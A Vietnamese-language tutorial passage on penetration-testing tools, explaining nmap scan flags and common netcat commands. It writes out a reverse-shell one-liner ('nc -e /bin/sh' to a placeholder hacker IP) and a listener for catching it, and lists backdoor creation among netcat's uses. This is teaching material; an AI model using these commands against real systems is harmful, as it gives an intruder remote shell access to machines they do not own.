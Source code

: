 ```nmap <tùy-chọn-flags> <IP-mục-tiêu>```
* -O (OS scan): Xác định hoặc dự đoán hệ điều hành đang được chạy trên server hoặc host mục tiêu
* -T<0-5>: T càng lớn thì thời gian quét càng nhanh, ví dụ thời gian quét của T5 sẽ nhanh hơn T4. Tuy nhiên, việc sử dụng T càng lớn, đòi hỏi kết nối mạng của bạn phải càng ổn định và càng mạnh, cũng như việc quét quá nhanh sẽ buộc Nmap phải gửi các gói tin đi một cách ồ ạt dễ gây chú ý đến quản trị viên của hệ thống mục tiêu.
* sC (script scan): Với flag -sC, Nmap sẽ sử dụng những scripts tìm lỗi hoặc thu thập thông tin (được gọi là Nmap Scripting Engine – NSE) mặc định được tích hợp bên trong để thu thập thông tin hoặc quét lỗi bảo mật trên hệ thống mục tiêu.
  * Ngoài ra, bạn có thể sử dụng flag –script để chạy một script tìm lỗi nhất định nào đó thay vì chạy các scripts được mặc định của Nmap. Để xem tất cả các scripts được tích hợp bên trong Nmap, các bạn có thể sử dụng câu lệnh sau:
    
      ```ls /usr/share/nmap/scripts```
## Công cụ Netcat (nc)
### Giới thiệu công cụ Netcat 
Netcat hay còn được viết tắt là nc là một công cụ trên giao diện dòng lệnh tuy đơn giản nhưng lại cực kỳ mạnh mẽ. Netcat được cài mặc định trên rất nhiều Linux distros ví dụ Ubuntu, Kali Linux, v.v. Necat có thể được cài đặt và sử dụng không chỉ trên các hệ điều hành Linux, mà còn cả cho Windows và MacOS nữa.

Netcat có thể được sử dụng cho các mục đích sau:

* Port scanning – nhằm xác định xem port đang mở hay đang đóng
* Truyền dữ liệu giữa 2 máy
* Lắng nghe kết nối đến (dùng để đón reverse shell).
* Tạo backdoor (cổng hậu)
* v.v.

Cú pháp của câu lệnh Netcat như sau:  ```nc <tùy-chọn-flag> <IP> <Port>```
### Một số câu lệnh Netcat hay được sử dụng
#### Câu lệnh 1: Đón reverse shell bằng Netcat
```nc -nlvp <Port-lắng-nghe-reverse-shell>```

Câu lệnh trên có các thành phần sau:

* -n: Mang ý nghĩa chúng ta sẽ chỉ dùng IPv4 address, không dùng domain name
* -l: Chế độ lắng nghe các kết nối đến
* -v: Verbose – Cho biết quá trình lắng nghe đang diễn ra thế nào
* -p: Chỉ định port để lắng nghe

Một cách ngắn gọn, câu lệnh trên sẽ mở port 8000 trên máy của hacker ở trạng thái lắng nghe các kết nối trỏ đến port 8000.
#### Câu lệnh 2: Tạo kết nối reverse shell
```nc -e /bin/sh <IP-của-hacker> <Port-đang-đợi-reverse-shell>```

Trong đó:

* -e /bin/sh: Sau khi kết nối thành công để mục tiêu thì thực thi /bin/sh (tuy nhiên không phải version nào của Netcat cũng sẽ hỗ trợ flag -e)
#### Câu lệnh 3: Chuyển file giữa 2 máy 
```
nc -w 3 <IP-điểm-đến> <Port-đang-chờ> < <tên-file-cần-chuyển>
Ví dụ:
nc -w 3 192.168.0.12 8888 < hello.txt
```

Trong đó:

* -w 3: Dùng để chỉ thời gian mà Netcat sẽ chờ phản hồi từ đích đến, nếu không có bất cứ phản hồi nào, Necat sẽ tự động hủy kết nối sau 3 giây.

Câu lệnh trên có nghĩa là chúng ta sẽ dùng Netcat tạo một kết nối đến port 8888 của địa chỉ 192.168.0.12 và sẽ chuyển file hello.txt tới địa chỉ IP đó thông qua kết nối vừa được tạo. Netcat sẽ chờ máy 192.168.0.12 trong 3 giây, nếu máy đích đến không phản hồi, Netcat sẽ tự động ngắt kết nối. 
```